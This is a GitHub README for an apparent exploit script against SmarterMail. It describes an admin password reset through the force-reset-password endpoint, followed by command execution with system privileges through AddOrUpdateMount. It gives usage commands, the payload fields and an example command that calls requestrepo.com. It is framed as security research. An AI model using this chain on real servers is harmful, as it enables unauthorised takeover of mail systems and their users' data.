


# SmarterMail Auth Bypass & RCE Exploit

**⚠️ This project is strictly for security research and testing. Do NOT use it on systems you do not own or have explicit permission to test.**

---

## Overview

This repository contains a small Python script that demonstrates how to:

1. **Reset the admin password** via the `force-reset-password` endpoint – effectively bypassing authentication.
2. **Execute arbitrary commands** on the SmarterMail server using the `AddOrUpdateMount` endpoint, which accepts a command string and runs it with system privileges.

By combining these two steps, an attacker can gain remote code execution on the SmarterMail instance.

---

## Prerequisites
```bash
pip install -r requirements.txt
```

---

## Usage

```bash
python exploit.py --url http://<smartermail-host>:<port> --newpass <new_password> --cmd "<command_to_execute>" --username <username>
```

| Argument | Description |
|----------|-------------|
| `--url` | Base URL of the SmarterMail instance. Example: `http://localhost:17017`. |
| `--newpass` | Password to set for the target user. |
| `--cmd` | Shell command to run on the server. For Windows you can use `curl requestrepo.com`. |
| `--username` | Username to target (defaults to `admin`). |

### Example

```bash
python exploit.py --url http://localhost:17017 --newpass Password456@ --cmd "curl requestrepo.com" --username admin
```

The script will:

1. Reset `admin`'s password to `Password456@`.
2. Log in with the new password.
3. Send a mount request that runs `curl requestrepo.com` on the host.

---

## How it Works

1. **Password Reset**  
   `reset_password()` sends a POST to `/api/v1/auth/force-reset-password`.  
   The payload sets `IsSysAdmin:true` which allows changing any user’s password without knowledge of the old one.

2. **Mount & Execute**  
   `exp()` posts to `/api/v1/settings/sysadmin/AddOrUpdateMount`.  
   The API accepts `MountPath`, `commandMount`, and `commandUnmount`.  
   `commandMount` is executed immediately with the server’s system privileges.

---

## Example





---

## References

https://labs.watchtowr.com/attackers-with-decompilers-strike-again-smartertools-smartermail-wt-2026-0001-auth-bypass/